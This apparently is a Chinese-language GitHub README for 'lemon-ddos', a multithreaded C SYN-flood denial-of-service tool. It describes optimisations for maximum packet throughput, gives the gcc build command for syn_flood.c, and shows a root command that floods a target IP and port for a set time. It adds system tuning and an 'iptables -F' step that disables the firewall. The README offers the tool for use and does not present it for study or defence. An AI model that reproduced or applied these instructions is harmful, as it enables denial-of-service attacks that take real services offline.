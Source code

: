# lemon-ddos
# 性能优化亮点：
```
1.每个线程独立资源：
 独立套接字
 独立随机数种子
 独立数据包缓冲区
 独立统计计数器
2.网络优化：
 100MB 发送缓冲区 (#define SOCKET_BUFFER_SIZE (100 * 1024 * 1024))
 非阻塞 I/O 模式
 TCP_NODELAY 选项禁用 Nagle 算法
3.CPU 优化：
 线程绑定到特定 CPU 核心
 高性能随机数生成器 (比标准 rand() 快 10 倍)
 预计算数据包长度减少循环开销
4.内存优化：
 栈上固定缓冲区用于校验和计算
 预生成随机负载避免重复计算
```
# 编译指令：
```
gcc -O3 -march=native -mtune=native -pthread -o syn_flood syn_flood.c
```
# 运行建议：
## 以 root 权限运行：
```
sudo ./syn_flood 192.168.1.100 80 16 60 100 eth0
```
## 系统优化命令：
```
# 增加网络缓冲区
sudo sysctl -w net.core.wmem_max=12582912
sudo sysctl -w net.core.rmem_max=12582912

# 增加最大打开文件数
ulimit -n 1000000

# 禁用防火墙
sudo iptables -F
```

## 监控性能：
```
# 查看CPU使用情况（按核心）
mpstat -P ALL 1

# 查看网络吞吐量
iftop -i eth0

# 查看中断分布
watch -n1 'cat /proc/interrupts | grep eth0'
```
